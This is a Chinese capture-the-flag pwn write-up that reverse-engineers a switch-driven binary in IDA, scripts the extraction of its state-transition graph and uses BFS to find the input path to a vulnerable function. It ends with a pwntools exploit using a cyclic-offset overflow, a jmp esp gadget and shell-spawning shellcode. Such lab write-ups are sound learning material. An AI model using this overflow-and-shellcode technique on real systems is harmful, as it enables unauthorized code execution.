









# 第一题

将程序拖入IDA分析：





可见是一个根据switch中的值跳转不同函数的逻辑，使用 `ctrl+f5` 导出所有IDA分析的伪代码，并去除多余的部分：



编写程序将其中函数包含根据switch中的值跳转不同函数的逻辑的全部提取成json文件：

```py
import re
import json
from tqdm import tqdm  # 调整导入顺序，集中放置

# 以latin-1编码读取文件，兼容二进制和文本混合内容
with open('pwn01.c', 'r', encoding='latin-1') as f:
    test_str = f.read()

# 从包含"080488CE"的位置截取字符串
start_index = test_str.find("080488CE")
test_str = test_str[start_index:] if start_index != -1 else ""  # 增加索引有效性检查

# 定义正则表达式模式（使用原始字符串避免转义问题）
pattern = r"int sub_[0-9A-F]+\(\)\n{(.|\n)*?switch \( sub_81097CF(.|\n)*?}"
regex = re.compile(pattern, re.MULTILINE)  # 使用编译对象提高效率

datas = []
# 使用tqdm显示进度条，明确迭代对象类型
for match_num, match in tqdm(enumerate(regex.finditer(test_str), start=1)):
    print(f"匹配项 {match_num}:", match)
    datas.append(match.group())

print("提取的匹配项列表：", datas)

# 写入JSON文件，确保中文正确显示
with open('pwn01.json', 'w', encoding='utf-8') as f:
    json.dump(datas, f, indent=4, ensure_ascii=False)
```

提取的json文件：



编写脚本，解析从 C 语言文件中提取的函数代码块，构建状态转移关系图，并将其存储为 JSON 文件：

```py
import json
import re

# 读取已保存的函数代码块数据
with open('pwn01.json', 'r') as file_obj:
    data_list = json.load(file_obj)

graph_maps = []


def parser_function(code_string: str) -> dict:
    """解析函数代码字符串，提取状态转移关系"""
    active_case = []
    result_dict = {}
    for single_line in code_string.splitlines():
        # 匹配函数声明行，提取当前函数名
        if "int sub_" in single_line:
            func_name_match = re.search(r"int (?P<sub_num>sub_[0-9A-F]+)\(\)", single_line)
            result_dict["from"] = func_name_match.group("sub_num")
        # 匹配case分支行，提取case编号（注意：原代码中"case ...u:"可能存在笔误，应为"case ...:"）
        elif "case" in single_line:
            case_num_match = re.search(r"case (?P<case_num>[0-9]+)u:", single_line)
            active_case.append(case_num_match.group("case_num"))
        # 匹配函数调用行，建立case到目标函数的映射
        elif "sub" in single_line:
            target_func_match = re.search(r"result = (?P<sub_num>.*)\(.*\)", single_line)
            for case_id in active_case:
                result_dict[f"to{case_id}"] = target_func_match.group("sub_num")
            active_case.clear()  # 清空当前case列表
        # 处理default分支，映射为case 6
        elif "default" in single_line:
            active_case.append("6")
    return result_dict


# 遍历每个函数代码块，执行双重解析
for data_item in data_list:
    # 第一次解析：通过正则表达式提取结构化to1-to6字段
    structure_match = re.search(
        r"int (?P<from>sub_[0-9A-F]+)\(\)\n{(.|\n)*?result = (?P<to1>.*)\(\)"
        r"(.|\n)*?result = (?P<to2>.*)\(\)"
        r"(.|\n)*?result = (?P<to3>.*)\(\)"
        r"(.|\n)*?result = (?P<to4>.*)\(\)"
        r"(.|\n)*?result = (?P<to5>.*)\(\)"
        r"(.|\n)*?result = (?P<to6>.*)\(\)(.|\n)*?}",
        data_item,
        re.MULTILINE
    )
    if structure_match:
        graph_maps.append(structure_match.groupdict())
    else:
        print("No match found")

    # 第二次解析：通过逐行解析提取case映射关系
    parsed_result = parser_function(data_item)
    graph_maps.append(parsed_result)

# 保存状态转移关系到新JSON文件
with open('pwn01_maps.json', 'w') as output_file:
    json.dump(graph_maps, output_file, indent=4, ensure_ascii=False)
```

提取到的状态转移关系：



只有`sub_81096BE`没有to的节点，在IDA中查看，确实是最终要攻击的函数：



编写BFS广度搜索没有from的节点：

```py
import json
with open('pwn01_maps.json', 'r') as f:
    maps = json.load(f)

nodes = set()
G = {}
for da in maps:
    # problem
    # print(da['from'])
    assert da['from'] not in nodes
    nodes.add(da["from"])

for da in maps:
    tos = [None] * 6
    for k, v in da.items():
        if k.startswith("to"):
            u = int(k[2:])
            assert 1 <= u <= 6
            tos[u - 1] = v
    G[da["from"]] = tos
    assert v == "sub_81096BE" or v in nodes, v

def bfs(G, start, target):
    queue = [start]
    visited = set()
    previous = {}
    while queue:
        node = queue.pop(0)
        if node == target:
            break
        if node in visited:
            continue
        visited.add(node)
        for i, neighbor in enumerate(G[node]):
            to = i + 1
            if neighbor is not None and neighbor not in visited:
                queue.append(neighbor)
                previous[neighbor] = (node, to)
    if node != target:
        return None
    path = []
    while node != start:
        path.append(previous[node][1])
        node = previous[node][0]
    path.reverse()
    return path

print(bfs(G, "sub_80488CE", "sub_81096BE"))
```

得到路径：



exp脚本:

```py
from pwn import *
context.log_level = 'debug'
context.arch = 'i386'
io = process("./pwn01")
io.send(b"""2
2
4
2
2
5
""")
# gdb.attach(io, api=True)
jmp_esp = 0x080a1077
shellcode = asm(shellcraft.sh())
io.send(flat({
    cyclic_find("daac"): [
        jmp_esp,
        shellcode
    ]
}))
io.interactive()

```



